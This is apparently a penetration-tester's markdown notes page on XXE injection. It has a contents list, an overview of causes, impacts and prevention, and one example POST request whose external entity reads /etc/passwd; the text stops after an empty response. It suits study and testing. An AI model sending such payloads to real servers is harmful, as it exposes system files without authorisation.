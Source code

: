 ### Content
* [Overview](#overview)
* [Local File Disclosure](#local-file-disclosure)
	* [Read file contains some of XML's special characters](#read-file-contains-some-of-xml's-special-characters)
		* [Read PHP files using PHP wrapper](#read-php-files-using-php-wrapper)
		* [Advanced Exfiltration with CDATA](#advanced-exfiltration-with-cdata) **(for any web application backend using XML Parameters entities)**
* [Remote Code Execution](#remote-code-execution)
	* PHP
* [Blind XXE](#blind-xxe)
	* [Error Based XXE](#error-based-xxe)
	* [Out-of-band Data Exfiltration](#out-of-band-data-exfiltration) **(Fully blind)**
		* Manually
		* Automated
---
## Overview
[XML External Entity (XXE) Injection](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- **Cause**: 
	- Occurs when [[XML]] data is taken from a user-controlled input without properly sanitizing or safely parsing it.
- **Exploitation**: 
	- An attacker supplies malicious [[XML]] data containing external entity references.
- **Impact**:
    - File Disclosure
    - SSRF (Server-Side Request Forgery)
    - Denial of Service (DoS)
    - Remote Code Execution (RCE)
- **Prevention**:
    - Disable External Entity Processing: Configure XML parsers to ignore external entities.
    - Use Safer Parsers: Some parsers don’t support external entities by default.
    - Input Validation: Avoid parsing XML from untrusted sources if possible.

Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm).
> [!CAUTION]
> XML is a case sensitive language `<!ENTITY email SYSTEM` != `<!ENTITY email system`.

---
## Local File Disclosure
* **Request**
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY email SYSTEM "file:///etc/passwd">
]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&email;</email>
	<message>123</message>
</root>
```
* **Response**
``` HTTP
HTTP/1.1 200 OK

```